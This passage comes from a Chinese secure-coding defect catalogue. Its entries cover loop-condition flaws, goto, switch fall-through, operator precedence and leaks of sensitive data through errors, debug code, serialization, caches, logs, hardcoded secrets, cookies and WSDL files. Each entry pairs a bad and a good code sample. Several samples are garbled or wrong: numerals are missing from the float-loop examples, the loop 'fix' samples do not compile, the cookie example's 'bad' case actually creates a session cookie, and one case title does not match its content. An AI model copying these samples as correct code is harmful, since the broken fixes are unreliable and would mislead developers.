    }
    
    return VOS_OK;
}
```

**正例**
```c
VOS_UINT16 CFieldLenChecker::CheckNStructFieldLenAndMoveForward(VOS_UINT32 maxLen, VOS_UINT32 &curLen,
VOS_UINT8 *&data,
const FieldLenCfgInfo *fieldCfg)
{
    VOS_UINT16 structNum = ;
    VOS_UIN16 lenOfNumInfo = 2;
    
    if (CheckFieldLen(maxLen, curLen, lenOfNumInfo) != VOS_OK) {
        return VOS_ERR;
    }
    
    curLen += lenOfNumInfo;
    EMAP_GetNetU16(data, structNum);
    //for循环变量structNum来自函数EMAP_GetNetU16,已经校验大小
    if (structNum > maxLen)
    {
        return;
    }
    while ( index < structNum) {
        EMAP_GetNetU16(data,lenOfNumInfo);
        index++
    }
    
    return VOS_OK;
?
}
```

**修复建议**
从EMAP_GetNetU16、EMAP_GetNetU32等函数获取的外部数据，应在使用前校验大小，避免循环内调用指针偏移函数导致的越界读写问题。

#### CWD-1268-000 未正确验证循环条件

#### CWD-1268-001 直接使用外部输入的数值作为循环的上限

#### CWD-1268-002 使用外部输入作为循环退出条件，无循环上限控制

#### CWD-1268-003 【循环次数】使用不可信数据作为循环步长，造成循环次数过多，导致大循环甚至死循环

#### CWD-1268-004 【循环条件】使用=和!=作为循环终止条件时，循环变量递增序列的值永远无法匹配上终止条件的变量值，造成死循环

**业界缺陷**

- [CWE-606: Unchecked Input for Loop Condition](https://cwe.mitre.org/data/definitions/606.html)
---

# CWD-1269 在循环中更新循环条件值

**描述**
在循环语句中更新表达式并在循环体内同时修改循环变量，会增加程序复杂度，容易引入漏洞。例如：循环遍历数据集时有增加或删除其内容操作；在for循环体内修改循环控制变量。

**语言: **C,CPP,JAVA

**严重等级**
严重

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  避免在循环中更新循环变量

**示例**
**案例1: 循环更新循环变量**
**语言: **C

**描述**
当while循环条件为while(i—)或while(—i),且循环体中对循环变量又有额外的减操作时,需要增加对循环变量的边界判断,否则可能因减操作引起整数翻转问题。

**反例**
```c
void testcase() {
    int i;
    while(--i){  
        i-=2;
        if(i>1){}
    }
}
```

**正例**
```c
void testcase() {
    int i;
    while(--i){
        if(i>1){}
        i-=2;
    }
}
```

**修复建议**
避免在循环中更新循环变量

#### CWD-1269-000 在循环中更新循环条件值

#### CWD-1269-001 【循环内修改循环控制变量】使用迭代器作为循环控制变量，并在循环内修改循环控制变量

#### CWD-1269-002 【循环内修改循环控制变量】for循环列表处理中，删除了列表元素，造成并发修改问题

#### CWD-1269-003 【循环内更改循环约束条件】循环变量同时受步长控制和不可信数据反向控制，造成循环次数过多，导致大循环甚至死循环

---

# CWD-1270 使用浮点变量来索引循环

**描述**
使用浮点变量来索引循环。由于浮点数不精确，因此每次执行循环时，舍入误差都会随着时间的推移而累积。通常最好使用整数索引，并在循环体顶部计算浮点数的新值。

**语言: **C,CPP,JAVA,GO

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  避免在循环中更新循环变量

**示例**
**案例1: 使用浮点数作为循环变量**
**语言: **C

**描述**
浮点数的精度有限，使用浮点数作为循环计数器可能会导致循环次数不准确，包括循环次数过多或过少。
因此，禁止使用浮点数作为循环计数器，建议使用整数作为循环计数器。

**反例**
```c
float x = ;
for (; x < .1; x += .1) {    // 不符合： 执行的循环次数可能11次，而非预期的1次
    ...
}

float y = ;
while (y <= .1) {              // 不符合： 执行的循环次数可能11次，而非预期的1次
    y += .1;
    ...
}

float z = ;
do {
    z += .1;
    ...
} while (z < .1);              // 不符合： 执行的循环次数可能11次，而非预期的1次
?```
```

**正例**
```c
int x = ;
for (; x < 1; x++) {           // 符合： 执行的循环次数是1次，符合预期
    count++;
}

int y = ;
while (y <= 1) {               // 符合： 执行的循环次数是1次，符合预期
    y++;
    ...
}

int z = ;
do {
    z++;
    ...
} while (z < 1);               // 符合： 执行的循环次数是1次，符合预期
?
```

**修复建议**
建议使用整数作为循环计数器。

#### CWD-1270-000 使用浮点变量来索引循环

---

# CWD-1271 过度使用无条件跳转

**描述**
代码中使用了太多的无条件分支，导致程序结构混乱且难以理解。如：goto语句、不直接从属于 switch 语句的 case 或 default 标签用于非结构性跳转。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可读

**缺陷防护全景**
**编码**
- 策略1：
  避免使用goto语句

**示例**
**案例1: 使用goto语句**
**语言: **C

**描述**
本示例代码中，使用goto导致逻辑不清晰，降低了代码的可读性。

**反例**
```c
A:
if (...) {
    goto B;
}

C:
if (...) {
    goto A;
} else if (...) {
    goto B;
} else {
    goto C;
}

B:
...
```

**正例**
```c
void DoSomething()
{
    ...
    goto ERR;
    ...
    goto ERR;
    ...
    goto ERR;
    ...
ERR:
    ... // 错误处理
}
```

**修复建议**
可以通过RAII机制定义资源管理对象，析构时执行exit操作，来避免使用goto语句。

#### CWD-1271-000 过度使用无条件跳转

**业界缺陷**

- [CWE-1119: Excessive Use of Unconditional Branching](https://cwe.mitre.org/data/definitions/1119.html)
---

# CWD-1272 switch语句中缺少的break

**描述**
switch语句用于根据不同的条件执行不同的代码块，如果没有使用break语句，程序将继续执行下一个case语句的代码块。当只打算执行与一个条件关联的代码时，缺少break语句会导致执行意外的逻辑。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可读

**缺陷防护全景**
**编码**
- 策略1：
  case语句块结束时如果不加break，需要有注释说明（fall-through）

**示例**
**案例1: switch语句中缺少break**
**语言: **JAVA

**描述**
switch语句中缺少break

**反例**
```java
switch (label) {
    case 0:
    case 1:
        System.out.println("1");
    case 2:
        System.out.println("2");
    case 3:
        System.out.println("3");
        break;
    default:
        System.out.println("Default case!");
}
```

**正例**
```java
switch (label) {
    case 0:
    case 1:
        System.out.println("1");
        // $FALL-THROUGH$
    case 2:
        System.out.println("2");
        // $FALL-THROUGH$
    case 3:
        System.out.println("3");
        break;
    default:
        System.out.println("Default case!");
}
```

**修复建议**
switch语句中，当没有终止语句（break，return或抛出异常）时会执行到switch语句的结束处。当case语句块中没有终止语句时，需要添加注释，表明会继续执行到下一个case语句块。任何符合fall-through概念的注释都可以（通常是// $FALL-THROUGH$）。

#### CWD-1272-000 switch语句中缺少的break

#### CWD-1272-001 由于switch语句的缺少break而覆盖了在前一个switch case中存储的值

#### CWD-1272-002 【循环退出】循环条件始终成立时，循环体存在某个分支无break、return、异常抛出等退出条件，在不可信数据控制该分支始终执行时，造成死循环

**业界缺陷**

- [CWE-484: Omitted Break Statement in Switch](https://cwe.mitre.org/data/definitions/484.html)
---

# CWD-1273 操作符优先级逻辑错误

**描述**
默认的优先级导致计算结果跟期望的不同。产品使用的表达式中存在运算符优先级问题，导致执行了错误的业务逻辑。虽然此类问题通常仅被视为程序缺陷，但当出现在身份验证决策等安全关键代码中时，运算符优先级错误可能引发严重后果。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可读

**缺陷防护全景**
**编码**
- 策略1：
  用括号明确表达式的操作顺序，避免过分依赖默认优先级

**示例**
**案例1: 运算符优先级与预期不符**
**语言: **JAVA

**描述**
在此示例中，该方法计算会计/财务应用程序的投资回报。投资回报率的计算方法是用当前价值减去初始投资成本，然后除以初始投资成本。但是，由于公式中的运算符优先逻辑不正确，投资回报率计算将不会产生正确的结果。除运算符的优先级高于减运算符，因此该等式将初始投资成本除以初始投资成本，初始投资成本将仅从当前值中减一。

**反例**
```java
public double calculateReturnOnInvestment(double currentValue, double initialInvestment) {
    
    double returnROI = 0.0;
    
    // calculate return on investment
    returnROI = currentValue - initialInvestment / initialInvestment;
    
    return returnROI;
}
```

**正例**
```java
public double calculateReturnOnInvestment(double currentValue, double initialInvestment) {
    
    double returnROI = 0.0;
    
    // calculate return on investment
    returnROI = (currentValue - initialInvestment) / initialInvestment;
    
    return returnROI;
}
```

**修复建议**
这个运算符优先逻辑错误可以通过在等式中正确使用括号来解决。

#### CWD-1273-000 操作符优先级逻辑错误

#### CWD-1273-001 变量赋值为该变量自增或自减后的值，导致自增或自减失败

**业界缺陷**

- [CWE-783: Operator Precedence Logic Error](https://cwe.mitre.org/data/definitions/783.html)
---

# CWD-1274 控制语句中包含过多的条件

**描述**
控制语句（if、while等）中如果包含过多的条件，会对阅读者造成理解与记忆上的困难，也会在修改时更容易出错，使代码不易维护，可读性差。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可读

**缺陷防护全景**
**编码**
- 策略1：
  避免在控制性条件表达式中执行复杂的条件判断

**示例**
**案例1: 复杂的条件判断**
**语言: **JAVA

**描述**
下列示例中，if条件判断中包含了过多的判断场景，增加代码理解的难度。

**反例**
```java
if (fileName == null || fis.available() == 0 || fileName.equalsIgnoreCase("id")
    || fileName.equalsIgnoreCase("name") || dh.getContentType() == null) {    
    // 其他代码...
}
```

**正例**
```java
boolean isFileNameCompliance = fileName == null || fileName.equalsIgnoreCase("id")
    || fileName.equalsIgnoreCase("name") ;

if (isFileNameCompliance || fis.available() == 0 || dh.getContentType() == null) {    
    // 其他代码...
}
```

**修复建议**
将复杂条件判断按场景进行整合，提升代码的可读性。

#### CWD-1274-000 控制语句中包含过多的条件

#### CWD-1274-001 使用or连接多个条件与多个值逐一比较，可读性差

#### CWD-1274-002 2个以上独立的判断条件组合多个if\else分支

---

# CWD-1275 错误消息中包含敏感信息

**描述**
程序在生成错误消息时意外暴露了系统内部的敏感信息，例如用户数据、系统配置、堆栈跟踪或日志路径等，攻击者可以通过分析这些错误消息获取系统内部细节，从而更容易发现漏洞或发起进一步的攻击。因此，错误消息的设计和生成必须严格控制，避免泄露任何可能被滥用的信息。

为应对这一问题，建议采取以下措施：首先，使用通用且模糊的错误信息，避免暴露技术细节或敏感数据；其次，确保错误消息不包含堆栈跟踪、数据库查询、文件路径等内部信息；再次，合理配置日志级别，避免在生产环境中记录敏感信息；最后，定期审查错误处理逻辑，并在开发过程中强化安全意识，避免将调试信息或敏感数据直接暴露给用户。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**软件实现设计**
- 策略1：明确系统中的异常体系
  在软件设计阶段，制定明确的异常体系，对各种场景使用的异常类型进行明确定义，规定错误信息的异常类型，避免在错误消息中暴露系统结构或敏感数据。

**编码**
- 策略1：避免在错误信息中包含敏感数据
  1. 在记录日志或反馈给用户前，对异常信息进行脱敏处理，移除或替换敏感内容。
  2. 避免在异常消息中直接包含敏感信息，如文件路径或数据库查询细节。
  3. 对于预期的错误情况，使用自定义异常类，只包含必要的、非敏感的错误信息。
- 策略2：发布版本中禁止包含调试代码
  调试代码通常用于开发和测试阶段，用于输出调试信息、跟踪变量值等，但在正式发布的产品中，这些代码可能会暴露敏感信息，影响系统安全性和性能。因此，在编译构建过程中，必须采取措施确保调试代码未被包含。

**开发者测试**
- 策略1：检查错误信息内容
  编写单元测试和自动化测试用例，检查错误信息内容，确保不包含敏感数据。

**代码Review**
- 策略1：检查错误处理代码
  在代码审查中检查错误处理代码，确保错误信息不包含敏感数据。

**编译构建**
- 策略1：发布版本中禁止包含调试代码
  在编译构建过程中，必须采取措施确保调试代码未被包含。具体措施包括使用编译器选项禁用调试信息，以及在构建过程中添加检查步骤，确保调试代码未被包含。

**代码检查**
- 策略1：静态分析工具
配置静态代码分析工具来检测包含敏感数据的错误信息的场景，确保代码在提交前通过这些工具的检查。

**示例**
**案例1: 敏感异常直接抛出给前端用户导致信息暴露**
**语言: **JAVA

**描述**
在处理文件读取等操作时，如果直接将系统异常（如FileNotFoundException）抛出给前端用户，可能会暴露系统内部的敏感信息（如文件路径）。

**反例**
```java
public static String readFile(String filePath) throws IOException {
    FileInputStream fileInputStream;
    try {
        fileInputStream = new FileInputStream(filePath);
        ...
    } catch (FileNotFoundException ex) {
        throw new IOException("Unable to retrieve file.", ex); // 不符合
    }
    ...
}
```

**正例**
```java
// filePath、directory已经规范化处理
public static String readFile(String filePath, String directory) throws MyBizException {
    ...
    try {
        fileInputStream = new FileInputStream(filePath);
        ...
    } catch (FileNotFoundException ex) {
        throw new MyBizException("Invalid file ...");  // 符合
    }
    ...
}
```

**修复建议**
1. 敏感异常禁止返回到用户界面中。
2. 避免直接抛出系统异常（如FileNotFoundException），而是抛出自定义的业务异常（如MyBizException），只包含必要的、非敏感的错误信息。

#### CWD-1275-000 错误消息中包含敏感信息

#### CWD-1275-001 调用java.lang.Throwable#printStackTrace()造成堆栈信息泄露

**业界缺陷**

- [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html)
---

# CWD-1276 调试代码中插入敏感信息

**描述**
调试代码（Debugging Code）通常用于开发阶段，用于输出调试信息、跟踪变量值等。如果在调试代码中嵌入敏感信息且未在发布前移除或禁用，这些调试代码可能会被未经授权的访问者获取，从而引发信息泄露和潜在攻击风险。因此，必须确保所有调试代码在发布前被彻底移除或禁用。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**软件实现设计**
- 策略1：明确调试代码管理
  建立一个统一的调试代码管理系统，确保调试功能在开发和测试阶段有效，同时在发布时自动关闭。

**编码**
- 策略1：发布版本中禁止包含调试代码
  确保所有调试代码在发布前被彻底移除或禁用。
- 策略2：避免在调试信息中包含敏感数据
  1. 在记录日志或反馈给用户前，对异常信息进行脱敏处理，移除或替换敏感内容。
  2. 避免在异常消息中直接包含敏感信息，如文件路径或数据库查询细节。
  3. 对于预期的错误情况，使用自定义异常类，只包含必要的、非敏感的错误信息。

**编译构建**
- 策略1：发布版本中禁止包含调试代码
  在编译构建过程中，必须采取措施确保调试代码未被包含。具体措施包括使用编译器选项禁用调试信息，以及在构建过程中添加检查步骤，确保调试代码未被包含。可参考《华为编译选项规范》。

**示例**
**案例1: 发布版本输出有敏感信息的DEBUG信息**
**语言: **C

**描述**
在生产环境中，如果DEBUG标志被定义，就会导致账户号码被打印出来，可能被恶意用户截获。

**反例**
```c
void ProcessUserAccount(char *acctNo)
{
    // 账户号码
    #ifdef DEBUG
    printf("Debug: User account number is %s\n", acctNo); // 不符合：输出敏感信息
    #endif
    ...
}
```

**正例**
```c
void ProcessUserAccount(char *acctNo)
{
    // 账户号码
    #ifdef DEBUG
    printf("Debug: Process User account number\n"); // 符合：已移除敏感信息
    #endif
    ...
}
```

**修复建议**
1. 在开发和测试环境中，定义调试标志（如DEBUG），而在生产环境中不定义。
2. 避免在调试信息中包含敏感数据。

#### CWD-1276-000 调试代码中插入敏感信息

**业界缺陷**

- [CWE-215: Insertion of Sensitive Information Into Debugging Code](https://cwe.mitre.org/data/definitions/215.html)
---

# CWD-1277 序列化类中包含敏感信息

**描述**
序列化操作是将一个对象转换为字节码或字符序列的过程，通常不包含安全防护措施，导致数据以明文形式存在。如果序列化类中包含敏感信息，这些数据在序列化过程中会被完整保留，从而存在敏感信息泄露的风险。

为应对这一问题，建议采取以下措施：


- 敏感数据最小化：避免在序列化类中存储不必要的敏感信息，仅传输和存储业务所需的最小必要数据。这可以有效减少潜在的数据泄露风险。- 数据加密：如果敏感信息必须序列化，应先对敏感信息进行加密，或对整个序列化结果进行加密。在跨信任边界传递含敏感信息的序列化结果时，应先进行签名，然后加密，以确保数据的完整性和机密性。
**语言: **JAVA,GO

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**软件实现设计**
- 策略1：安全边界设计
  在设计阶段，明确数据来源的可信性，跨信任边界传递含敏感信息的序列化结果时需要先签名后加密。

**编码**
- 策略1：避免在可序列化的类中包含敏感数据字段
  - 使用transient关键字标记敏感字段，以防止它们被序列化。
  - 实现自定义的序列化和反序列化方法（writeObject和readObject），确保在序列化过程中对敏感数据进行加密或保护。

**代码Review**
- 策略1：关注可序列化的类
  在代码审查时，详细检查可序列化的类，确保没有包含敏感数据。检查所有敏感字段是否被正确标记为transient，并确保自定义序列化和反序列化方法在实际场景中有效保护数据

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测将敏感信息写入序列化结果问题。

**示例**
**案例1: 类中敏感信息未使用transient修饰导致序列化时包含敏感数据**
**语言: **JAVA

**描述**
直接将含有电话、住址等敏感信息的用户序列化写入磁盘中，存在敏感信息泄露的风险。

**案例分析**
UserInfo类包含敏感信息（电话号码和地址），并且这些信息在序列化时直接写入文件，如果文件被非法访问，敏感信息可能会被泄露。

**反例**
```java
public class UserInfo implements Serializable {
    private static final long serialVersionUID = 6562477636399915529L;
    private String id;
    private String name;
    private String phone; // 不符合：用户电话号码，敏感信息
    private String address; // 不符合：用户地址，敏感信息
    ...
}

    public void saveUserInfoToFile(UserInfo info) {
        ...
        FileOutputStream fos = null;
        try {
            fos = new FileOutputStream("bizFile");
            ObjectOutputStream oos = new ObjectOutputStream(fos);
            oos.writeObject(info);
            ...
        } catch (IOException ex) {
            // 处理异常
        }
        ...
    }
```

**正例**
```java
public class UserInfo implements Serializable {
    private static final long serialVersionUID = -2589766491699675794L;
    private String id;
    private String name;
    private transient String phone; // 符合：用户电话号码，敏感信息，使用transient修饰
    private transient String address; // 符合：用户地址，敏感信息，使用transient修饰
    ...
}
```

**修复建议**
使用transient关键词修饰含敏感信息的属性，避免这些属性进行序列化。这样可以确保敏感信息（如电话号码和地址）在序列化过程中不会被写入文件，从而防止信息泄露。

#### CWD-1277-000 序列化类中包含敏感信息

#### CWD-1277-001 Serializable类中包含敏感字段，而没有被排除、加密或标记为transient

**业界缺陷**

- [CWE-499: Serializable Class Containing Sensitive Data](https://cwe.mitre.org/data/definitions/499.html)
---

# CWD-1278 缓存中包含敏感信息

**描述**
缓存技术旨在提升系统性能，主要通过降低资源初始化和访问时间来优化效率。缓存主要包含CPU缓存、硬盘缓存，以及操作系统或应用程序在内存中创建的高速缓存。

然而，若代码中使用了包含敏感信息的缓存，将带来显著的安全风险。攻击者一旦突破访问控制，可能窃取缓存中的敏感信息。

为有效应对这一安全威胁，建议采取以下防护措施：


- 敏感数据最小化原则：仅存储业务必需的最小化敏感数据，避免缓存中存放不必要的敏感信息，从而降低潜在数据泄露风险。- 数据加密保护：对缓存中的敏感数据实施加密存储，确保即使缓存被非法访问，攻击者也无法直接获取明文信息。- 权限控制机制：建立严格的访问控制策略，确保只有经过授权的进程或用户才能访问缓存内容。- 缓存周期性清理：实施定期清理或失效策略，避免敏感信息在缓存中长期驻留，从而减少被恶意利用的可能性。
**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**软件实现设计**
- 策略1：明确缓存机制，确保敏感信息不被缓存
  设计时，明确指出哪些数据是敏感的，设计时避免将这些数据存储在缓存中。如果敏感数据必须存储在缓存中，应先对敏感数据进行加密。
- 策略2：明确缓存的访问控制策略
  为确保缓存的安全性，必须建立严格的访问控制机制，确保只有经过授权的进程或用户能够访问缓存内容，避免缓存被不必要的进程或用户访问。
- 策略3：明确缓存周期性清理策略
  为了避免敏感信息在缓存中长期驻留，应实施定期清理或失效策略。

**编码**
- 策略1：检查数据，避免将敏感信息存入缓存
  在编码过程中，对所有数据进行分类，确保敏感信息不被缓存。
- 策略2：敏感数据先加密再存储到缓存
  在编码过程中，如果敏感数据存储是必要的，必须先对敏感数据进行加密处理。

**代码Review**
- 策略1：检查缓存逻辑，确保敏感信息处理正确

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测敏感数据缓存问题。

**示例**
**案例1: 直接存储敏感数据到缓存中**
**语言: **JAVA

**描述**
家庭成员信息直接被序列化为JSON字符串并存储到缓存中，没有进行任何加密处理。这可能导致敏感信息泄露，存在安全风险。

**反例**
```java
public void updateFamilyMemberToDcs(String userid, List<familyMember> familyMembers) {
    if (Objects.isNull(familyMembers)) {
        idesCacheAdapter.sadd(userId, "");
        return;
    }
    try {
        for (FamilyMember familyMember : familyMembers) {
            idesCacheAdapter.sadd(userId, JsonUtils.writeValueAsString(familyMember)); // 不符合
        }
    } catch (JsonProcessingException e) {
        log.error(e.getMessage());
    }
}
```

**正例**
```java
public void updateFamilyMemberToDcs(String userid, List<familyMember> familyMembers) {
    if (Objects.isNull(familyMembers)) {
        idesCacheAdapter.sadd(userId, "");
        return;
    }
    try {
        for (FamilyMember familyMember : familyMembers) {
            // 对敏感信息进行加密处理
            String encryptedAvatar = encrypt(familyMember.getAvatar());
            familyMember.setAvatar(encryptedAvatar);
            // 符合：将加密后的对象序列化为JSON字符串并存储到缓存
            idesCacheAdapter.sadd(userId, JsonUtils.writeValueAsString(familyMember));
        }
    } catch (JsonProcessingException e) {
        log.error(e.getMessage());
    }
}
```

**修复建议**
尽量避免将敏感数据直接存储在缓存中。如果存储是必要的，必须先对敏感数据进行加密处理。

#### CWD-1278-000 缓存中包含敏感信息

#### CWD-1278-001 以可恢复格式存储敏感信息

#### CWD-1278-002 redis中明文保存敏感信息

**业界缺陷**

- [CWE-524: Use of Cache Containing Sensitive Information](https://cwe.mitre.org/data/definitions/524.html)
---

# CWD-1279 通过进程调用暴露敏感信息

**描述**
当敏感信息通过命令行参数、环境变量或操作系统上其他进程可以看到的其他元素暴露时，会出现安全漏洞。许多操作系统允许用户列出其他用户拥有的进程的信息，包括命令行参数或环境变量设置。如果这些数据包含敏感信息，如凭据，则可能允许其他用户对产品或相关资源发起攻击。进程信息，如 ps 命令的输出结果，可能包含受保护的敏感信息，如密码。

**语言: **C,CPP,JAVA,JAVASCRIPT,CANGJIE,ARKTS

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  保护敏感信息不要泄露

**示例**
**案例1: 单例模式未进行同步**
**语言: **JAVA

**描述**
在本示例中，密钥库文件的密码是从系统属性中读取的。

**反例**
```java
String keystorePass = System.getProperty("javax.net.ssl.keyStorePassword");
if (keystorePass == null) {
    System.err.println("ERROR: Keystore password not specified.");
    return;
}
...
```

**正例**
```java
public class PropertiesConfigReader {
    public static void main(String[] args) {
        Properties prop = new Properties();
        try {
            // 加载属性文件
            FileInputStream fis = new FileInputStream("config.properties");
            prop.load(fis);
            
            // 获取属性值
            String keystorePass = prop.getProperty("javax.net.ssl.keyStorePassword");
            if (keystorePass == null) {
                System.err.println("ERROR: Keystore password not specified.");
                return;
			}
			...
        } catch (IOException ex) {
            ...
        }
    }
}
```

**修复建议**
密钥库文件的密码保存在配置文件中。

#### CWD-1279-000 通过进程调用暴露敏感信息

#### CWD-1279-001 内存地址泄漏

#### CWD-1279-002 堆栈信息泄漏

#### CWD-1279-003 shell进程监控包含敏感信息

**业界缺陷**

- [CWE-214: Invocation of Process Using Visible Sensitive Information](https://cwe.mitre.org/data/definitions/214.html)
---

# CWD-1280 日志中包含敏感信息

**描述**
将敏感信息写入日志文件导致数据泄漏，甚至攻击者可能会使用这些信息来攻击程序。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  日志中不要记录敏感信息，包括加密的敏感信息。

**示例**
**案例1: 日志中记录敏感信息**
**语言: **JAVA

**描述**
在日志中不能记录口令、密钥等敏感信息，包括这些敏感信息的加密密文，防止产生敏感信息泄露风险。

**反例**
```java
private static final Logger LOGGER = Logger.getLogger(TestCase.class);
...
LOGGER.info("Login success, user is " + userName + ", password is " +
    encrypt(pwd.getBytes(StandardCharsets.UTF_8)));
```

**正例**
```java
private static final Logger LOGGER = Logger.getLogger(TestCase.class);
...
LOGGER.info("Login success, user is " + userName + ", password is ********.");
```

**修复建议**
若因为特殊原因必须要记录日志，应用固定长度的星号（*）代替这些敏感信息。

#### CWD-1280-000 日志中包含敏感信息

#### CWD-1280-001 日志打印对象内存地址

#### CWD-1280-002 日志打印敏感信息

#### CWD-1280-003 【控制台未脱敏打印敏感信息】System.out.printxx和System.err.printxx方式打印未经过脱敏的敏感信息

**业界缺陷**

- [CWE-532: Insertion of Sensitive Information into Log File](https://cwe.mitre.org/data/definitions/532.html)
---

# CWD-1281 在源代码中包含敏感信息

**描述**
硬编码在代码中的敏感信息容易被攻击者通过逆向工程的方式获取。如认证凭据（密钥）硬编码，攻击者可以使用秘钥解密密文，数据的机密性无法保证，整个加密机制将失效。认证凭据需要定期更新，硬编码也不易于程序维护。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  代码中禁止硬编码敏感信息

**示例**
**案例1: 敏感信息硬编码**
**语言: **JAVA

**描述**
代码中硬编码敏感数据，恶意用户可以使用javap -c DataHanlder 命令来反编译class来发现其中硬编码的密码。反编译器的输出信息透露了密码信息。

**反例**
```java
public class DataHanlder {
    private String pwd = "Huawei@123";
    
    public static void main(String[] args) {
        //...
    }
    
}
```

**正例**
```java
public class DataHanlder {
    public static void main(String[] args) throws IOException {
        char[] pwd = new char[100];
        BufferedReader br = new BufferedReader(new InputStreamReader(new FileInputStream("serverpwd.txt")));
        // Reads the password into the char array,
        // returns the number of bytes read
        int n = br.read(pwd);
        …
        char[] password = decrypt(pwd);
        …
        // clean pwd from char[]
    }
}
```

**修复建议**
从一个安全目录下的外部文件获取加密的密码信息，对密码信息解密后使用。在其使用完后立即从内存中将其清除可以防止后续的信息泄露。

#### CWD-1281-000 在源代码中包含敏感信息

#### CWD-1281-001 源代码注释中包含敏感信息

#### CWD-1281-002 测试代码中包含敏感信息

#### CWD-1281-003 include头文件代码中包含敏感信息

#### CWD-1281-004 代码中通过标识符(变量、常量)形式硬编码明文的敏感信息

#### CWD-1281-005 conf配置文件中保存明文的敏感信息

#### CWD-1281-006 dockerfile配置文件中保存明文的敏感信息

#### CWD-1281-007 ini配置文件中保存明文的敏感信息

#### CWD-1281-008 nginx配置文件中保存明文的敏感信息

#### CWD-1281-009 json配置文件中保存明文的敏感信息

#### CWD-1281-010 properties配置文件中保存明文的敏感信息

#### CWD-1281-011 XML配置文件中保存明文的敏感信息

#### CWD-1281-012 yaml/yml配置文件中保存明文的敏感信息

#### CWD-1281-013 【硬编码敏感信息】使用@Value注解声明变量，初始化变量值存在硬编码

#### CWD-1281-014 【硬编码敏感信息】java代码中存在参数硬编码认证凭据

#### CWD-1281-015 【硬编码敏感信息（账户、口令、密钥、证书、个人邮箱等）】代码中key-value形式存储/配置敏感信息时直接使用硬编码字符串数据，存在硬编码敏感信息问题

#### CWD-1281-016 【硬编码敏感信息（账户、口令、密钥、证书、个人邮箱等）】涉及敏感信息作为函数参数的场景下，参数直接输入硬编码值，存在硬编码敏感信息问题

**业界缺陷**

- [CWE-540: Inclusion of Sensitive Information in Source Code](https://cwe.mitre.org/data/definitions/540.html)
---

# CWD-1286 持久性Cookie中包含敏感信息

**描述**
有两种不同类型的 Cookie：会话 Cookie 和持久性 Cookie。会话 cookie 仅存在于浏览器的内存中，不会存储在任何地方，但持久性 cookie 存储在浏览器的硬盘驱动器上。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  配置文件中的敏感信息要先加密处理

**示例**
**案例1: 持久型cookie中包含敏感信息**
**语言: **JAVA

**描述**
在持久型cookie中包含明暗信息，信息会被保存在磁盘中，容易产生泄露风险。

**反例**
```java
String jwt = createJwt();		
Cookie jwtCookie = new Cookie("Authorization", jwt);
jwtCookie.setMaxAge(-1);
response.addCookie(jwtCookie);
```

**正例**
```java
String jwt = createJwt();		
Cookie jwtCookie = new Cookie("Authorization", jwt);
response.addCookie(jwtCookie);
```

**修复建议**
必须使用cookie传递敏感信息时，使用会话cookie。

#### CWD-1286-000 持久性Cookie中包含敏感信息

#### CWD-1286-001 带有Max-Age的Cookie的值中包含了敏感信息

**业界缺陷**

- [CWE-539: Use of Persistent Cookies Containing Sensitive Information](https://cwe.mitre.org/data/definitions/539.html)
---

# CWD-1287 WSDL文件包含敏感信息

**描述**
WSDL指网络服务描述语言 (Web Services Description Language)。WSDL 是一种使用 XML 编写的文档。WSDL文件可能包含敏感信息，如用户名、密码等，我们需要确保不会泄漏这些信息。Web服务可能需要公开Web服务定义语言（WSDL）文件，但该文件中包含了不能公开的敏感信息。

**语言: **JAVA,GO,JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：
  尽可能限制对 WSDL 文件的访问。如果服务仅提供给有限数量的实体，那么最好私下向每个实体提供 WSDL，而不是公开发布 WSDL。

**示例**
**案例1: WSDL文件中包含了不应对外公开的API**
**语言: **JAVA

**描述**
假设sayHelloRequest方法是不对外声明的API，而WSDL文件中直接对外声明，可以导致该API可以被前端访问。

**反例**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<wsdl:definitions xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
                  xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
                  xmlns:xsd="http://www.w3.org/2001/XMLSchema"
                  xmlns:tns="http://example.com/helloworld"
                  targetNamespace="http://example.com/helloworld">

    <!-- 定义数据类型 -->
    <wsdl:types>
        <xsd:schema targetNamespace="http://example.com/helloworld">
            <xsd:element name="sayHelloRequest">
                <xsd:complexType>
                    <xsd:sequence>
                        <xsd:element name="name" type="xsd:string"/>
                    </xsd:sequence>
                </xsd:complexType>
            </xsd:element>
        </xsd:schema>
    </wsdl:types>

</wsdl:definitions>
```

**正例**
```java
<?xml version="1.0" encoding="UTF-8"?>
<wsdl:definitions xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
                  xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
                  xmlns:xsd="http://www.w3.org/2001/XMLSchema"
                  xmlns:tns="http://example.com/helloworld"
                  targetNamespace="http://example.com/helloworld">

    <!-- 定义数据类型 -->
    <wsdl:types>
        <xsd:schema targetNamespace="http://example.com/helloworld">
            <xsd:element name="externalAPI">
